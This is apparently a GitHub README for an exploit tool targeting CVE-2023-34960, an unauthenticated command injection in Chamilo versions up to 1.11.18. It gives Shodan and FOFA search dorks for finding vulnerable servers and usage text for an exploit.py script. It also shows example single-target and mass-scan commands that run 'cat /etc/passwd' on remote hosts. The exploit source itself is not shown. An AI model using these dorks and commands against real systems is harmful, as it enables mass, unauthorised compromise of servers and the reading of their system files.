 # CVE-2023-34960
![](https://img.shields.io/static/v1?label=Product&message=Chamilo&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v1.11.*%20up%20to%20v1.11.18&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20injection&color=red)



- Shodan dork:
```
http.component:"Chamilo"
```
- FOFA dork:
```
body="content=\"Chamilo 1"
```
## Install
```
pip install -r requirements.txt
```
## Usage
```
usage: exploit.py [-h] [-u URL] [-f FILENAME] [-c COMMAND] [-t THREADS]
                  [-o OUTPUT]

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL address (without 'http://' prefix)
  -f FILENAME, --filename FILENAME
                        File containing URLs
  -c COMMAND, --command COMMAND
                        Command to execute (optional)
  -t THREADS, --threads THREADS
                        Maximum number of concurrent threads
  -o OUTPUT, --output OUTPUT
                        Output file for saving the results
# Single scan.
python3 exploit.py -u target_IP -c 'cat /etc/passwd'

# Mass scan.
python3 exploit.py -f list_ip.txt -c 'cat /etc/passwd'
```
